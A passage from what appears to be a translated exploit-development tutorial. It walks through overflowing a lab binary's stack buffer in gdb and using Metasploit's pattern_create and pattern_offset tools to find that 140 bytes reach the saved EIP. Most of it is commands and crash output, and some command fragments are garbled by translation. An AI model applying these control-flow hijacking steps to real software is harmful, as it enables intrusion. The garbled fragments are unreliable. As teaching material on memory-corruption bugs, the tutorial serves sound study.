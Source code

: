 (gdb) run \`perl -e 'print "A"x128'\`BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
Starting program: /home/arget/vuln \`perl -e 'print "A"x128'\`BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ

Program received signal SIGSEGV, Segmentation fault.  
0x45454545 in ?? ()

Breaking in 0x45454545 means that EIP is “EEEE”, so to get to step EIP must introduce 128 + 3 \* 4 = 140. Let’s check EIP introducing specific bytes, “ARGT”  
(gdb) run \`perl -e ‘print “A”x140’\`ARGT  
Starting program: /home/arget/vuln \`perl -e ‘print “A”x140’\`ARGT  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARGT

Program received signal SIGSEGV, Segmentation fault.  
0x54475241 in ?? ()

We see that EIP contains 0x54475241, which is ([little endian](https://en.wikipedia.org/wiki/Endianness)…) 41524754, which corresponds precisely with “ARGT” We managed to put in EIP arbitrary “direction”.

Obtaining this information, you can be accelerated with frameworks such as Metasploit module with the pattern:

$ /opt/metasploit/tools/exploit/pattern\_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

This creates a chain module deterministically of any length so that four characters followed never repeated. Using the -l parameter will indicate the length we want, we must be guided by the size of the stack frame we see in the asm code. Now we put that string in the program:

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag  
Starting program: /home/arget/vuln Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.  
0x37654136 in ?? ()

Breaks when accessing 0x37654136, had a big endian 36 41 65 37 and converted into ASCII characters ([asciitohex.com](https://www.asciitohex.com/) It is a good tool, or you can always use a -e echo “x36x41x65x37” or python/perl one-line or even a miss 36416537 | xxd -PS -r) turns out to be 6Ae7 and employ the pattern\_offset Metasploit module for the exact offset within the chain we were provided:

$ /opt/metasploit/tools/exploit/pattern\_offset.rb -q 6Ae7  
\[\*\] Exact match at offset 140

Confirming what we already knew, that there are 140 bytes to the EIP saved.
